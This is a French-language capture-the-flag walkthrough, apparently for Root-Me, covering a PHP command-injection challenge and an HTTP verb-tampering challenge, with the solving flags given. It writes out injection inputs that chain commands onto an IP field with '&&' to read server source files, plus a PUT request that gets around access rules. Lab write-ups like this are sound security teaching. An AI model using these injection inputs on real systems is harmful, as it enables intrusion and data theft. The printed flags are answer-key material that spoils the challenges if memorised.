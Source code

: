 
## 6. PHP - Injection de commande

L'objectif est d'exploiter une faille permettant d'exécuter des commandes système via un formulaire PHP.

### Étapes :
1. Trouvez un champ de saisie sur la page.
2. Injectez une commande avec `&&`.

Exemple :

```bash
127.0.0.1 && pwd /challenge/web-serveur/ch54
```

Si cela fonctionne, testez les commandes suivantes :

```bash
127.0.0.1 && ls index.php
```

Puis :

```bash
127.0.0.1 && cat index.php
```

Si `cat` est bloqué, utilisez :

```bash
127.0.0.1 && head index.php
127.0.0.1 && tail index.php
```

Résultat final :

```
$flag = "S3rv1ce...S3cure";
Flag: S3rv1ceP1n9Sup3rS3cure
```

---

## 13. HTTP - Verb tampering

L'objectif est de contourner les restrictions d'accès en manipulant les méthodes HTTP.

### Solution :

1. Utilisez une extension Firefox comme **Open HTTP requester**.
2. Envoyez une requête PUT vers :

```
http://challenge01.root-me.org/web-serveur/ch8/
```

Flag obtenu : `a23e$dme96d3saez$$prap`

---